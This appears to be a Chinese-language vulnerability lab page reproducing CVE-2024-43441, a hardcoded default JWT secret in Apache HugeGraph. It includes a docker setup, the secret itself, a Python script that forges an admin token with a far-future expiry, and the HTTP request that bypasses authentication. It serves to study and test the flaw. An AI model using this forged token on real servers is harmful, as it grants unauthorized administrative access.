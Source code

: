 # Apache HugeGraph JWT Token密钥硬编码漏洞（CVE-2024-43441）

Apache HugeGraph 是一款快速、高度可扩展的图数据库。它提供了完整的图数据库功能，具有出色的性能和企业级的可靠性。

Apache HugeGraph 存在一个 JWT token 密钥硬编码漏洞。当启用了认证但未配置 `auth.token_secret` 时，HugeGraph 将使用一个硬编码的默认 JWT 密钥，其值为 `FXQXbJtbCLxODc6tGci732pkH1cyf8Qg`。攻击者可以使用这个默认密钥生成有效的 JWT token，从而绕过认证执行未经授权的操作。

参考链接：

- <https://github.com/advisories/GHSA-f697-gm3h-xrf9>
- <https://github.com/apache/incubator-hugegraph/commit/03b40a52446218c83e98cb43020e0593a744a246>

## 环境搭建

执行如下命令启动 Apache HugeGraph 1.3.0 服务器：

```
docker compose up -d
```

服务启动后，可以通过 `http://your-ip:8080` 访问 HugeGraph 的 RESTful API。

默认情况下，Apache HugeGraph 支持两种认证模式：HTTP基础认证和JWT认证。当启动 docker 容器时，系统会使用环境变量 PASSWORD 中指定的值作为默认管理员的密码。在正常情况下，您可以使用用户名 "admin" 和该密码通过 HTTP 基础认证访问 API。

如果您尝试在不提供任何认证头的情况下访问 API，将会收到如下错误：

```json
{
    "exception": "class jakarta.ws.rs.NotAuthorizedException",
    "message": "Authentication credentials are required",
    "cause": ""
}
```

## 漏洞复现

除了默认管理员密码外，我们还可以使用默认 JWT 密钥生成有效的 JWT token 绕过认证。

生成一个使用默认密钥的 JWT token：

```python
# 安装 jwt 库，运行 `pip install pyjwt`
import jwt

# 使用默认密钥生成 JWT token
token = jwt.encode(
    {
      "user_name": "admin",
      "user_id": "-30:admin",
      "exp": 9739523483
    },
    "FXQXbJtbCLxODc6tGci732pkH1cyf8Qg",
    algorithm="HS256"
)
print(f"Generated JWT token: {token}")
# Output:
# Generated JWT token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX25hbWUiOiJhZG1pbiIsInVzZXJfaWQiOiItMzA6YWRtaW4iLCJleHAiOjk3Mzk1MjM0ODN9.mnafQi6x9nlMz1OcPQu4xAyiq91Ig5tUFhGsktNXKqg
```

使用生成的 token 访问受保护的端点：

```
GET /graphs HTTP/1.1
Host: localhost:8080
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX25hbWUiOiJhZG1pbiIsInVzZXJfaWQiOiItMzA6YWRtaW4iLCJleHAiOjk3Mzk1MjM0ODN9.mnafQi6x9nlMz1OcPQu4xAyiq91Ig5tUFhGsktNXKqg
```

您将收到如下响应：

![](1.png)

如果您移除 `Authorization` 头，您将收到如下错误：

![](2.png)
